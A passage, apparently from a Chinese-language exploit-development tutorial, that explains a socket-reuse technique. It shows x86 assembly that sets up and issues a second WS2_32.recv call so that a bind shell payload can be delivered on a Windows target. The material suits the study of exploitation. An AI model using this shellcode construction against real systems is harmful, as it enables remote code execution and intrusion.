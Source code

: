 一旦我们用最后的加法单步执行了操作码，我们就可以用我们的修改成功地调用`WS2_32.recv`函数。

![](img/189357e1069e87dfb2d25a2090c673a6.png)

## 调用第二接收函数

因为我们将我们的 bind shell 有效负载作为套接字重用有效负载发送，所以我们需要进行第二次 recv 调用来正确地触发我们的 bind shell。

```
**### 2nd <JMP.&WS2_32.recv> (ASM)**XOR ECX, ECX    **; Zero out ECX**
PUSH ECX        **; recv flags parameter = 0**
PUSH EAX        **; recv len parameter = 0x200**
PUSH EBX        **; recv buf parameter**
PUSH ESI        **; recv SOCKET s parameter**
CALL EBX        **; Call <JMP.&WS2_32.recv>**
```

![](img/ca45a1c4f273ff8a4005172213cdde4b.png)
